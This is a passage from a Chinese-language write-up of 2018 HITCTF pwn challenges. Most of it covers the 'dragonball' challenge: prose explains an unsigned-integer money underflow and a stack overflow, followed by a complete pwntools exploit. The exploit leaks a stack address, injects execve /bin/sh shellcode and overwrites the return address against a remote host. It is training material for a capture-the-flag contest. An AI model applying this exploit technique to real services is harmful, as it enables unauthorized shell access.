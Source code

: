 ```python
				io.recvuntil("This is your flag: ")
				flag = io.recvline()
			io.close()
			break;
		
		else:
			io.close()

print "flag: " + flag
print "passwd: " + passwd
```
## <span id="3">dragonball(200)</span>
程序初始提供了15元，购买一个DragonBall花费5元，出售一个获得3元，集齐7个DragonBall可以执行许愿函数wish，wish函数存在栈溢出，可以泄露栈地址和覆盖函数的返回地址

![](https://github.com/7Hxz233/2018-HITCTF-Challenges/blob/master/pwn/pwn250_DragonBall/images/1.png?raw=true)

用checksec检查程序，发现nx和canary都关闭了，那么就可以用shellcode来拿shell。那么问题是怎么集齐7龙珠。
	分析买卖流程，发现购买函数只检查了钱是否为0的情况，而且用于存储钱的变量是一个无符号整数，那么可以通过买卖操作让钱向下溢出而变大，就有足够的钱来买龙珠了。
```python
from pwn import *

shellcode  =  "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

def buy():
	p.recvuntil("You choice: ")
	p.sendline('1')
	p.recvuntil("Success!\n")
def sell():
	p.recvuntil("You choice: ")
	p.sendline('2')
	p.recvuntil("Success!\n")

#p = process('./DragonBall')
p = remote('111.230.132.82',40002)

p.recvuntil("You have 15 yuan in total, use them to collect 7 Dragon balls!\n\n")
buy()
sell()
for i in range(7):
	buy()

p.recvuntil("You choice: ")
p.sendline('4')
p.recvuntil("Tell me your wish: ")
p.send('a' * 0x68)
p.recvuntil('a' * 0x68)
ebp = int(p.recv(4)[::-1].encode('hex'),16)
print hex(ebp)
#gdb.attach(p)
p.send(shellcode + (0x3c - len(shellcode)) * 'a' + p32(ebp - 0x58))
p.interactive()
p.close()
```
## <span id="4">nodes(350)</span>
程序实现了一个单链表，可以插入、编辑节点，查看所有节点的内容，节点的结构体如下所示：
